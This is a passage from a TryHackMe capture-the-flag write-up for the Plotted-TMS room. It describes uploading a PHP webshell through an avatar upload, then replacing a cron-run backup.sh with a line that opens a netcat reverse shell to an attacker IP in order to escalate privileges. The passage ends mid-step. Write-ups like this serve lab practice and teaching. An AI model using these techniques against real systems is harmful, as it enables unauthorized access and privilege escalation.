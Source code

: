 ![Admin page of TOMS](/assets/img/tryhackme/Plottedtms/thm_plottedtms_2.jpg)

I analyzed the website for ways to proceed and found that the user can upload an avatar. Let's upload a php webshell:

![php reverse shell upload](/assets/img/tryhackme/Plottedtms/thm_plottedtms_3.jpg)

Looks great, we have initial access.

## Privilege Escalation plot_admin

I searched for a way to get `plot_admin` and found an intersting cronjob:
```bash
* *     * * *   plot_admin /var/www/scripts/backup.sh
```

The `backup.sh` belongs to the user plot_admin so I wasn't able to edit it. But the folder belongs to `www-data` which means we can delete and create files. The new `backup.sh` looks like this:
```bash
#!/bin/bash

busybox nc [attackerip] 9005 -e sh
```
and gave it all permissions:
